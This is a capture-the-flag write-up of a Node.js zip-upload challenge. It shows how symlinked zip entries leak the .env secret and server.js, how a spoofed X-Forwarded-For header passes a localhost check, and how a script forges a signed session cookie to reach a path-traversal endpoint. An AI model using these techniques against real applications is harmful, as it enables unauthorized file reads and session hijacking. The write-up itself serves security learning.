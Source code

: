 # WEB/SLIPPY 
## Description 
Slipping Jimmy keeps playing with Finger.

## Challenge Overview 

So we were given an Node.js/Express web application and on that we could upload the zip files and we could see the unzipped files on the /files endpoint and
on seeing the Dockerfile we see that the flag is being stored as flag.txt in a randomly named directoy(8 char aphanumeric name) 
```Dockerfile
RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8)"; mkdir "$rand_dir" && echo "TFCCTF{Fake_fLag}" > "$rand_dir/flag.txt" && chmod -R +r "$rand_dir"
```
So the first obvious try was to get path traversal by uploading zip file with a name like `../` or something but this would give unzip error which 
indicates the version of unzip used on the server is modern and secure.

All the routes were listed in index.js but the most important route was `/debug/file` endpoint where we could see that there is clear path traversal vulnerability 

```javascript
router.get('/debug/files', developmentOnly, (req, res) => {
    const userDir = path.join(__dirname, '../uploads', req.query.session_id);
    fs.readdir(userDir, (err, files) => {
    if (err) return res.status(500).send('Error reading files');
    res.render('files', { files });
  });
```

and there was nothing to protect it except the middleware (developmentOnly.js) that was being used  

```javascript
module.exports = function (req, res, next) {
    if (req.session.userId === 'develop' && req.ip == '127.0.0.1') {
      return next();
    }
    res.status(403).send('Forbidden: Development access only');
  };
```
Its just checking if our `session.userId` is `develop` or not and also the `req.ip` is from `127.0.0.1`. 

Well the second check could just be bypassed by simply adding the header `X-Forwarded-For: 127.0.0.1` in our request
and if you don't know what does this do then in simple terms the [X-Forwarded-For](https://devsec-blog.com/2025/04/understanding-the-x-forwarded-for-http-header-security-risks-and-best-practices/) 
header helps applications identify the original client IP when requests pass through a proxy or a load balancer and if the server blindfully trusts this header then 
we can do this.

For the first check we would need set our userId: develop and we can't do that without the `SESSION_SECRET` and we can see in server.js that a certain userId is being 
set as develop usinf the session secret stored in `.env` file.
```javascript
const store = new session.MemoryStore();
const sessionData = {
    cookie: {
      path: '/',
      httpOnly: true,
      maxAge: 1000 * 60 * 60 * 48 // 1 hour
    },
    userId: 'develop'
};
store.set('<REDACTED>', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
  });

app.use(session({
  secret: process.env.SESSION_SECRET,
  resave: false,
  saveUninitialized: false,
  store: store
}));
```
Ok then we have to get to read the `.env` file and also the `server.js` file to to forge a cookie that has access the /debug endpoint 
Since we were not able the get path traversal by changing file name,I thought we could use zipped symlinks (A symlink is a symbolic 
Linux/ UNIX link that points to another file or folder on your computer, or a connected file system. This is similar to a Windows shortcut.)
so I tried to read the .env file with it
```bash
ln -s ../../.env env_link
zip --symlinks env.zip env_link
```
and Guess what we got the `.env` file from this and then we got `SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b` 
now we do the same the thing to read the server.js to to see which userId is being set as develop and we get that `SessionId = amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E` 
then we would forge a cookie using this script 
```javascript
const signature = require('cookie-signature');

const sessionId = 'amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E';

const secret = '3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b'; 

const signedSessionId = signature.sign(sessionId, secret);

const cookieValue = `s:${signedSessionId}`;
console.log("Set your 'connect.sid' cookie value to this:");
console.log(cookieValue);
```
Then using this forged cookie and X-Forwarded-Host we make a request to to the `/debug/files?session_id=develop` to check if we are getting access 

<img width="707" height="106" alt="image" src="https://github.com/user-attachments/assets/c18511db-1cd6-45be-abd5-ab75562b02fe" />

and YES we are getting access so now using path traversal I get to know that flag is in `tlhedn6f`directory  
so using the symlink trick again I downloaded the flag and 
That's how we get the FLAG 



